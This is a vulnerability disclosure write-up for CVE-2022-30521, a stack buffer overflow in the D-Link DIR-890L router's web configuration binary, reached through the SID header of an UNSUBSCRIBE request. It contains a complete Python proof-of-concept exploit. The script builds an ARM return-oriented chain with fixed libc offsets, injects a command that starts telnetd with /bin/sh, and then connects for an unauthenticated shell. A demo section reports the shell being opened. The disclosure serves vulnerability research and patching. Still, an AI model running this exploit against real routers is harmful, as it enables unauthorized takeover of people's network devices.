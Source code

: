 # CVE-ID

[CVE-2022-30521](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-30521 "https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-30521")

# Information

**Vendor of the products:**    D-Link

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>) && FeiXincheng(<FXC030618@outlook.com>)

**Affected products:**    D-Link DIR-890L <= v1.07B09

**Vendor Homepage:**    [https://www.dlink.com](https://www.dlink.com "https://www.dlink.com")

# Overview

The LAN-side Web-Configuration Interface has `Stack-based Buffer Overflow vulnerability` in the `D-Link` Wi-Fi router firmware `DIR-890L DIR890LA1_FW107b09.bin` and previous versions. 

The function created at `0x17958` of `/htdocs/cgibin` will call `sprintf` without checking the length of strings in parameters given by `HTTP header` and can be controlled by users easily.

The attackers can exploit the vulnerability to carry out arbitrary code by means of sending a specially constructed payload to port `49152`.

# Vulnerability Description

The vulnerability is detected at `/htdocs/cgibin`.

There is a `Stack-based Buffer Overflow vulnerability` in the function created at `0x17A60`. When we use `UNSUBSCRIBE` request, it will call the `sub_17958` function which created at `0x17958`.

![image](./pic/1-1.jpg)

However, in the `sub_17958` function, it will call `sprintf` without checking the length of `v2`, which causes the `stack overflow`. The `v2` here is `SID` parameter given by `HTTP header`.

![image](./pic/1-2.jpg)

# Poc

```python
# python3
from pwn import *
from socket import *
from os import *
from time import *
context(os = 'linux', arch = 'arm')

libc_base = 0xb6f7e000

s = socket(AF_INET, SOCK_STREAM)

cmd = b'telnetd -l /bin/sh;'
payload = b'a'*449
payload += p32(libc_base + 0x18298) # pop {r3, pc};
payload += p32(libc_base + 0x406f8) # mov r0, r1; pop {r3, pc};
payload += p32(libc_base + 0x390fc) # pc add r1, sp, #0x2c; blx r3;
payload += b'a'*4 # padding
payload += p32(libc_base + 0x5a270) # pc system
payload += b'a'*(0x2c-8) # padding
payload += cmd

msg = b"UNSUBSCRIBE /gena.cgi?service=0 HTTP/1.1\r\n"
msg += b"Host: localhost:49152\r\n"
msg += b"SID: " + payload + b"\r\n\r\n"

s.connect((gethostbyname("192.168.0.1"), 49152))
s.send(msg)

sleep(1)
system("telnet 192.168.0.1 23")
```

# Attack Demo

![image](./pic/2-0.jpg)

Scan ports before exploit the vulnerability.

![image](./pic/2-1.jpg)

Exploit the vulnerability and get shell successfully.

![image](./pic/2-2.jpg)

Scan ports again and we can dectect that the port `23` which represents `Telnet` service has been opened.

![image](./pic/2-3.jpg)
